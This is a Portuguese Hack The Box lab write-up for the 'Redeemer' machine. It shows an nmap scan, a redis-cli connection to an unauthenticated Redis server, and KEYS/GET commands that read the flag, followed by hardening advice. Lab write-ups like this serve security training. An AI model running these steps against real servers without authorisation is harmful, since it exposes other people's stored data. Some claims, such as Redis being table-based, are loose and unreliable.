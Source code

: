# HTB - Redeemer

**Plataforma:** Hack the Box

**Máquina:** Redeemer

**Data:** 15/10/25

**Objetivo:** Capturar a flag

---

## 1 - Descrição

A maquina alvo usa um serviço **redis**, é um servidor baseado em tabelas, ele por padrão fica na porta 6379.
**IP do alvo:**  10.129.35.253

---

## 2 - Reconhecimento

### =Varredura de Portas=
Já que eu sabia qual porta eu deveria procurar, em vez de perder tempo eu escanei a porta padrão do serviço redis:

```bash
nmap -sV -p 6379 10.129.35.253
```

O resultado desse scan foi:
```bash
PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value 5.0.7
```

Como podemos ver a porta do serviço Redis esta aberta

---

## 3 - Exploração

### =Serviço Redis=
Comando usado pra conectar no servidor redis é:

```bash
redis-cli -h 10.129.35.253
```

Conectado no servidor, eu usei o comando  KEYS * esse comando lista todas as keys salvas no servidor, depois de conectar e usar o comando KEYS * , o terminal fica assim:

```bash
10.129.35.253> KEYS *
1) "flag"
2) "stor"
3) "numb"
4) "temp"
```

Ali estava a key que precisavamos, a key "flag", agora usei o comando GET, pra mostrar o valor da key "flag"

```bash
10.129.35.253> GET flag
"<VALOR DA FLAG>"
```

E assim consegui a flag da máquina :)

---

## Vulnerabilidades

- Serviço Redis exposto na rede
- Não precisa de senha pra conectar no servidor como root
- Protocolo desatualizado

## Recomendações de Segurança

- Usar um serviço mais atual do que o redis
- Usar sempre senha pra seus serviços
- Usar um firewall bem configurado pra não deixar portas expostas

---

## Conclusão

Essas últimas 4 máquinas que fiz, todas as vulnerabilidades eram falta de senhas, então pude aprender que uma senha boa é um dos melhores jeitos de se prevenir, mas não coloque senhas obvias ou só feitas de números, pois um ataque brute force consegue invadir isso, mas eu gostei dessa